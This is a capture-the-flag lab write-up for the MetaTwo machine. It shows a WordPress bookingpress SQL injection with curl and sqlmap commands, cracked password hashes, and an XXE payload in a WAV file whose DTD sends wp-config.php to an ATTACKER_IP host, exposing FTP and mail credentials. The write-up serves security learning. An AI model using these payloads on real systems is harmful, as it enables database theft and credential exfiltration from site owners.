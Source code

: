 # MetaTwo

<Image src="/images/writeups/htb/metatwo/banner.png" />

### nmap scan

By scanning with nmap we can find three open ports. In particular, on port 80 there is a website available based on Wordpress at the address `metapress.htb`

<Image src="/images/writeups/htb/metatwo/nmap.png" />

### Analyzing the website

By looking to the source code of the index it is possible to see that the website uses Wordpress.

<Image src="/images/writeups/htb/metatwo/source.png" />

We can also notice that a plugin called bookingpress-appointment-booking is used. with version 1.0.10. It is enough to search on Google for vulnerabilities to find a SQLi.

[https://wordpress.org/plugins/bookingpress-appointment-booking/](https://wordpress.org/plugins/bookingpress-appointment-booking/)

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

The SQLi is:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

Enumerate dbs

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --dbs
```

Enumerate users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch -D blog -T wp_users --dump
```

Get password of admin and manager users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --sql-query "SELECT user_pass FROM wp_users WHERE ID=1"
```

<Image src="/images/writeups/htb/metatwo/sqlmap.png" />

Final hashes

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. admin
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 manager
```

Using hashcat and the rockyou list is possible to find the password for manager: `partylikearockstar`.

<Image src="/images/writeups/htb/metatwo/manager.png" />

Once inside we can try to exploit the permissions of the manager user.
We can use tool like Wappalyzer to find the version of Wordpress used by the website (5.6.2).

There is a vulnerability that exploits the upload of a new media element to the website. The vulnerability is described here:

[https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

One file will be used for upload:

```xml title="payload.wav"
RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://ATTACKER_IP:ATTACKER_PORT/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Another will be server on the attacker machine:

```xml title="xxe.dtd"
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:ATTACKER_PORT/?%data;'>">
```

Change ATTACKER_IP and ATTACKER_PORT with your values.

Remember to serve the file on your local pc:

```bash
python3 -m http.server PORT
```

In the `wp-config.php` we can find the credentials for the ftp server:

```php title="wp-config.php"
...
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
...
```

<Image src="/images/writeups/htb/metatwo/ftp.png" />

In addition to the blog files, there is also a folder called `mailer` where we can find a file `send_email.php`.
Inside the file we can find the credentials for the mail server:

```php title="send_email.php"
...
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
...
```

By logging in using ssh we can find the user flag.
